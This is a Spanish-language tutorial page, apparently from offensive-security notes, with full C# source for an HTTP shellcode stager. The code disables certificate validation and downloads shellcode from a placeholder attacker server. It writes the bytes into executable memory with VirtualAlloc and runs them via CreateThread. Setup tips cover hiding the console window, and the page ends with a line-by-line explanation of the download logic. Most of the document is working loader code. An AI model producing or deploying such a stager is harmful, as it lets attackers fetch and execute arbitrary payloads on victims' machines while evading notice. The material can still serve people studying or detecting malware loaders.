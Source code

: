 # Stager HTTP C\#

## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net;

namespace stagerHttp
{
    class Program
    {
        public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }

        private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }


        [DllImport("kernel32")]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] shellcode)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);
            Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);


            IntPtr hThread = IntPtr.Zero;
            IntPtr threadId = IntPtr.Zero;
            hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return;
        }
    }
}

```
{% endcode %}



## Configuración inicial

Para ocultar la consola hay que seleccionar este campo

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Para compilar en 64 bytes:

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>



## Explicación

### Función Main

En este bloque lo que hacemos es almacenar lo que la función Download() devuelve en una variable para luego ejecutarla.

```csharp
public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }
```



### Función Download

La primer linea de esta función se encarga de que cuando queramos descargar el shellcode no se fije en los errores producidos por https, que si bien podría funcionar sin esto, puede servir en otra situación.

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.net.servicepointmanager.servercertificatevalidationcallback?view=net-7.0" %}

Después nos valemos del método **DownloadData()** para descargar como bytes el contenido de lo que le pasemos como url y posteriormente retornarlo.

```csharp
private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }
```

